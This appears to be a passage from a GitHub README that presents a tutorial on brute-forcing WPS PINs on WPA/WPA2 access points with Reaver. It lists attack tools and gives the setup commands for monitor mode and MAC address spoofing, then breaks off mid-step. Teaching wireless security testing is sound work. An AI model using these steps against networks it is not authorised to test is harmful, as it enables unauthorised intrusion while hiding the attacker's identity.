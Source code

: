 # WPS WPA/WPA2 Brute Force Attack with Reaver

Simulation demonstrates step-by-step method for attempting to brute force WPA/WPA2- protected access point
exploiting WPS vulnerabilities and retrieving 8 digit key

# Project is for education and ethical testing within your own devices.

## Tools Used
  -  *airmon-ng*  -enables monitor mode
  -  *aireplay-ng* - used for fake authentication
  -  *wash* -scans for WPS-enabled access points
  -  *reaver* - brute-force tools for WPS PIN

## Setup & Attack

1. Confirm and Enable Wireless Adapter
   -sudo iwconfig

2. Prepare Monitor mode
   - sudo ifconfig wlan0 down
   - sudo macchanger -r wlan0
   - sudo airmon-ng check kill
   - sudo airmon-ng start wlan0
   - s

